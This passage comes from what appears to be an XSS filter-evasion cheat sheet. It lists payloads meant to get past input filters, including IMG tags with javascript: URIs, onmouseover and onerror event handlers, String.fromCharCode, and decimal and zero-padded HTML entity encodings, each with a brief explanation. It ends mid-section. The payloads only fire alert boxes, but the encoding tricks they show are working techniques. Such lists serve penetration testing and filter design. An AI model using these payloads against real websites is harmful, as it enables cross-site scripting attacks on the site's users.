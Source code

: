 If no quotes of any kind are allowed you can eval() a fromCharCode in
JavaScript to create any XSS vector you need:

    <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

## Default SRC tag to get past filters that check SRC domain

This will bypass most SRC domain filters. Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like `onblur`, `onclick` giving you an extensive amount of variations for many injections listed here. Submitted by David Cross .

Edited by Abdullah Hussam(@Abdulahhusam).

    <IMG SRC=# onmouseover="alert('xxs')">

## Default SRC tag by leaving it empty

    <IMG SRC= onmouseover="alert('xxs')">

## Default SRC tag by leaving it out entirely

    <IMG onmouseover="alert('xxs')">

## On error alert

    <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

## IMG onerror and javascript alert encode

    <img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

## Decimal HTML character references

All of the XSS examples that use a javascript: directive inside of an `<IMG` tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode).

    <IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>

## Decimal HTML character references without trailing semicolons

This is often effective in XSS that attempts to look for "&\#XX;", since most people don't know about padding - up to 7 numeric characters total. This is also useful against people who decode against strings like $tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/; which incorrectly assumes a semicolon is required to terminate a html encoded string (I've seen this in the wild):
